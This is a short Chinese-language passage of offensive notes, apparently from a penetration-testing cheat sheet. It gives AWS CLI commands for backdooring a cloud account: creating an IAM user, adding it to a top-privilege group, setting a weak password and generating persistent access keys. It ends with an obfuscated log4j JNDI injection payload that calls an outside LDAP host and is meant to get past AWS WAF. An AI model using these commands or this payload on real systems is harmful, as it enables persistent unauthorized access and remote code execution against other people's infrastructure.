  #### 新用户
	对云环境进行后门的最简单方法之一是创建一个对该环境具有完全访问权限的新用户。 使用“aws iam create-user --user-name MyUser”命令创建新用户。
	一旦你创建了这个用户，你应该把他们放在一个拥有最高权限的组中。 要将用户添加到组中，您可以使用以下命令：
	> aws iam add-user-to-group --user-name MyUser --group-name MyIamGroup
	最后使用以下命令为用户添加密码：
	> aws iam create-login-profile --user-name MyUser --password password@123.
 #### 访问密钥
	如果用户更改了密码，您将无法再访问该用户。
	但是，用户拥有的任何访问密钥仍然有效。 如果您拥有正确的权限，则可以通过为其他用户创建和下载访问密钥来后门。 这可以通过以下命令完成。
	> aws iam create-access-key --user-name MyUser
	现在您有了访问密钥，您可以将其与 AWS cli 一起使用，以该用户身份与云环境进行交互。
 ### 绕过AWS WAF进行log4j jndi注入
	${j${k8s:k5:-ND}i${sd:k5:-:}ldap://mydogsbutt.com:1389/o}